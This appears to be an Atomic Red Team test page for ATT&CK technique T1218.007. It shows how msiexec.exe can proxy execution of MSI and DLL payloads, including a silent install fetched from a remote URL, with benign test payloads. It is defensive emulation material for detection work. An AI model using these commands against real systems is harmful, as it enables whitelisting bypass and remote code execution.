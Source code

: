 # T1218.007 - Msiexec
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1218.007)
<blockquote>Adversaries may abuse msiexec.exe to proxy execution of malicious payloads. Msiexec.exe is the command-line utility for the Windows Installer and is thus commonly associated with executing installation packages (.msi).(Citation: Microsoft msiexec) Msiexec.exe is digitally signed by Microsoft.

Adversaries may abuse msiexec.exe to launch local or network accessible MSI files. Msiexec.exe can also execute DLLs.(Citation: LOLBAS Msiexec)(Citation: TrendMicro Msiexec Feb 2018) Since it is signed and native on Windows systems, msiexec.exe can be used to bypass application whitelisting solutions that do not account for its potential abuse.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Msiexec.exe - Execute Local MSI file](#atomic-test-1---msiexecexe---execute-local-msi-file)

- [Atomic Test #2 - Msiexec.exe - Execute Remote MSI file](#atomic-test-2---msiexecexe---execute-remote-msi-file)

- [Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL](#atomic-test-3---msiexecexe---execute-arbitrary-dll)


<br/>

## Atomic Test #1 - Msiexec.exe - Execute Local MSI file
Execute arbitrary MSI file. Commonly seen in application installation. The MSI opens notepad.exe when sucessfully executed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | Path | PathToAtomicsFolder&#92;T1218.007&#92;src&#92;Win32&#92;T1218.msi|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /q /i "#{msi_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.msi must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{msi_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host "You must provide your own MSI"
```




<br/>
<br/>

## Atomic Test #2 - Msiexec.exe - Execute Remote MSI file
Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware execution. The MSI opens notepad.exe when sucessfully executed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | String | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/src/Win32/T1218.msi|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /q /i "#{msi_payload}"
```






<br/>
<br/>

## Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally. Commonly seen in application installation.
Upon execution, a window titled "Boom!" will open that says "Locked and Loaded!". For 32 bit systems change the dll_payload argument to the Win32 folder.
By default, if the src folder is not in place, it will download the 64 bit version.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218.007&#92;src&#92;x64&#92;T1218.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /y "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```




<br/>
